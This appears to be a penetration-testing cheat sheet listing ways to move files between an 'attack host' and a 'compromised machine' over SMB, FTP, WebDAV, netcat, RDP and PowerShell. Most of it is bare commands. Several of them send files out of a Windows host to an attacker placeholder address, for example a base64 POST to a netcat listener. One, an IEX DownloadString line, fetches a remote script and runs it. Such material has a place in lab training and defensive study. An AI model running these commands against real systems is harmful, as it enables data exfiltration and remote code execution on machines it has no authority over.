 ### **UPLOADING FILES VIA SMB (NO CREDENITIAL)**

1.  Setting Up an SMB Server:  
    `sudo impacket-smbserver hackfast -smb2support .`
2.  Map a Network Drive:  
    `net use z: \\[IP-ADRESS]\hackfast`
3.  Upload a File via SMB:   
    `copy file.txt z:\file.txt`

### **UPLOADING FILES VIA SMB (WITH CREDENTIALS)**

3.  Configure SMB Server Using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
4.  Configure SMB Server Using smbserver.py  
    `smbserver.py share . -smb2support -username hackfast -password hackfast`
5.  Map a Network Drive:  
    `net use z: \\[IP-ADRESS]\hackfast /user:hackfast hackfast`
6.  Upload File to Mapped Drive:  
    `copy file.txt z:\file.txt`

### **UPLOADING FILES VIA FTP**

1.  Setting Up Write-Enabled FTP Server:  
    `sudo python3 -m pyftpdlib --port 21 --write`
2.  Upload File Using PowerShell:  
    `(New-Object Net.WebClient).UploadFile('ftp://[IP-ADRESS]/file.txt', 'C:\Windows\Temp\file.txt')`
3.  Automating FTP Upload with Command File:  
    
    ![](../../img/Windows-Environment/1.png)

### **POWERSHELL BASE64 WEB UPLOAD WITH NETCAT**

1.  Encode the File to Base64 (On Windows):  
    `$filePath = 'C:\Windows\Temp\file_name'`  
    `$b64 = [System.Convert]::ToBase64String((Get-Content -Path $filePath -Encoding Byte))`
2.  Set Up the Netcat Listener to Capture the POST Request:  
    `nc -lvnp 8080 > received_b64.txt`
3.  Upload the Base64 String via HTTP POST:  
    `Invoke-WebRequest -Uri http://[IP-ADRESS]:8080/ -Method POST -Body $b64`
4.  Decode the Base64 String Received via Netcat:  
    `cat received_b64.txt | base64 -d > file_name`

### **UPLOADING A FILE TO A REMOTE SESSION**

1.  Create a PowerShell Remoting session:  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy the file from your local machine to the remote session:  
    `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

### **UPLOADING FILES VIA WEBDAV**

1.  Install WebDav Server  
    `sudo pip3 install wsgidav cheroot`
2.  Start the WebDav Server  
    `sudo wsgidav --host=0.0.0.0 --port=8081 --root=/tmp --auth=anonymous`
3.  List Directory Contents:  
    `dir \\[IP-ADRESS]\DavWWWRoot`
4.  Copy File to WebDav Server:  
    `copy C:\Temp\file.zip \\[IP_ADRESS]\DavWWWRoot\`

### **NC UPLOADING A FILE (SENDING)**

- **ON THE ATTACK HOST (LISTENING):**
    
    1.  Using Netcat  
        `sudo nc -l -p 443 -q 0 < file_to_send.exe`
    2.  Using Ncat  
        `sudo ncat -l -p 443 --send-only < file_to_send.exe`
- **ON THE COMPROMISED MACHINE (CONNECTING):**
    
    1.  Using Netcat  
        `nc [IP-ADRESS] 443 > received_file.exe`
    2.  Using Ncat  
        `ncat [IP-ADRESS] 443 --recv-only > received_file.exe`

### **UPLOADING A FILE USING RDP (LINUX TO WINDOWS)**

1.  Using rdesktop:  
    `rdesktop [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] -r disk:linux='/home/user/rdesktop/files`
2.  Using xfreerdp:  
    `xfreerdp /v:[IP-ADDRESS] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`

### **UPLOADING FILES USING POWERSHELL**

1.  `IEX(New-Object Net.WebClient).DownloadString('http://[IP-ADRESS]:8000/PSUpload.ps1')`
    
2.  `Invoke-FileUpload -Uri http://[IP-ADRESS]:8080/upload -File C:\Windows\Temp\file_name`